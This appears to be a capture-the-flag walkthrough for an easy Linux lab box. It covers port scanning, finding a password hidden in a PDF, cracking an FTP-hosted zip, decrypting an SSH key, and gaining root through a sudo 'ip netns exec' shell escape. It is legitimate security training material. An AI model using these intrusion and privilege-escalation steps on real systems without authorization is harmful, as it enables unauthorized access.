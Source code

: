 Intended way to solve rorito CTF box

basic info
```
level:- easy
type:- linux
IP:- 192.168.33.16
```
Port scan:-

```
┌─[shark@shark]─[~/box]
└──╼ $nmap -sC -sV  192.168.33.16
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-21 13:23 IST
Nmap scan report for 192.168.33.16
Host is up (0.00047s latency).
Not shown: 996 filtered ports
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.33.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open   ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 15:58:ce:44:24:b1:8e:39:1b:b4:3b:a0:61:a8:fa:c1 (RSA)
|   256 0b:99:80:ff:eb:70:ef:e4:a4:6d:59:f8:ec:80:e5:d1 (ECDSA)
|_  256 d4:bd:fa:e1:3a:b6:2b:b0:55:3b:7c:5b:07:17:24:b6 (ED25519)
80/tcp open   http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.62 seconds
```
from the port scan we get to know there is a  Apache httpd 2.4.29 on port 80 navigating to that...

![image](https://github.com/5h4rk-lab/solutions_of_5h4rk/blob/master/apache.png)

<br>
lets find out wether there is any directorys avilable on web site running gobuster scan gives you... 

![image](https://github.com/5h4rk-lab/solutions_of_5h4rk/blob/master/gobuster.png)

after moving to `/publications` directory you will find an PDF which looks like empty but not so didnt get? let me show


![image](https://github.com/5h4rk-lab/solutions_of_5h4rk/blob/master/hidden.png)

select the entair pdf and copy it to any text editor it says

```
Hey ! you reached here noice.Have you been trolled or you are going to be trolled depends on the situation huh.
There is an old   saying that "privacyismythmyfriend007#" ~By 0xnairSometimes some sayings can be helpful.
```

okay now lets goo onn and enumurate ftp

```
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Oct 21 06:03 .
drwxr-xr-x    3 ftp      ftp          4096 Oct 21 06:03 ..
-rw-r--r--    1 ftp      ftp          5929 Oct 21 05:55 .0xnair.zip
226 Directory send OK.
ftp> get .0xnair.zip
local: .0xnair.zip remote: .0xnair.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .0xnair.zip (5929 bytes).
226 Transfer complete.
5929 bytes received in 0.01 secs (758.7523 kB/s)
ftp> pwd
257 "/pub/user/troll/public/access/.0xnair" is the current directory
ftp> 
```
going through every folder you will wind an hidden folder name .0xnair which has a file name 0xnair.zip <br>
lets download that and unzip it but this is a password protected file lets crack it using `fcrackzip` <br>

![image](https://github.com/5h4rk-lab/solutions_of_5h4rk/blob/master/fcrack.png)

so decrypting the file gives us 2 more gpg encrypted files which we need to decrypt using gpg <br>
decryption of gpb files <br>
step1:- import the key <br>
step2:- decrypt the id_rsa but this needs a password 

as we remember that the famous saying `privacyismythmyfriend007#` will help you and this is the key for decryption.


![image](https://github.com/5h4rk-lab/solutions_of_5h4rk/blob/master/decrypt.png)

aha we decrypted it now we got the the id_rsa key its time to login but... wait what is the user name?? <br>
by going back to message it was given that by 0xnair so this was the only username in the entair box lets go and try it out

![user](https://github.com/5h4rk-lab/solutions_of_5h4rk/blob/master/user.png)

boom you got the user shell its time to root!!! all you need to do is privilage escalation <br>
first thing to be checked is to find what are the commads we can run as root using user
command `sudo -l`

```
0xnair@esplong:~$ sudo -l
Matching Defaults entries for 0xnair on esplong:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User 0xnair may run the following commands on esplong:
    (root) NOPASSWD: /sbin/ip
```

so we got to know we can run ip as root using https://gtfobins.github.io/gtfobins/ip/#sudo we got to know we can privilage escalate to root with this commads 

```
sudo ip netns add foo
sudo ip netns exec foo /bin/sh
```
![root](https://github.com/5h4rk-lab/solutions_of_5h4rk/blob/master/privilage.png)

you got the root! happy hacking :)
